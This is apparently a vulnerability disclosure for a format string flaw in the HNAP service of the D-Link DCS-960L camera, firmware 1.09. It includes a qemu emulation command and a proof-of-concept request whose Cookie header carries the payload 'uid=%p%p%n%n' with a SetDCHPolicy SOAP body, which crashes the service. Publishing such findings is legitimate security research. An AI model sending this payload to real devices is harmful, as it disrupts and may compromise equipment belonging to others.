 # DCS-960L 1.09 format string vulnerability

## Product Info

**Supplier**: [Smart Home, SMB and Enterprise solutions | D-Link (dlink.com)](https://www.dlink.com/en)

**Router model**: DCS-960L

**Router Version**: 1.09

**Firmware**: [D-Link Technical Support (dlinktw.com.tw)](https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DCS-960L)



## Vulnerability introduction

​    There is a format string vulnerability in the sub_402280 function of the HNAP service of D-Link DCS-960L with firmware version 1.09, which can cause the service to crash.


![image](https://github.com/user-attachments/assets/847fe2f6-9602-4449-8579-a537b01c005d)


We use qemu user impersonation to verify.

```shell
qemu-mips-static -g 1337 -E REQUEST_METHOD=POST,SOAP_ACTION=1,CONTENT_LENGTH=404,COOKIE=uid=%p%p%n%n,HNAP_AUTH=1  -L . ./web/cgi-bin/hnap/hnap_service < info.txt
```

info.txt

```xml
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetDCHPolicy xmlns="http://purenetworks.com/HNAP1/"></SetDCHPolicy></soap:Body></soap:Envelope>
```

Single-stepping into the program will crash.

![image](https://github.com/user-attachments/assets/61719887-0ab5-4ad3-b1ad-b95ded5c1c3d)


## POC

```xml
Cookie: uid=%p%p%n%n
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <SetDCHPolicy xmlns="http://purenetworks.com/HNAP1/">
        </SetDCHPolicy>
    </soap:Body>
</soap:Envelope>
```





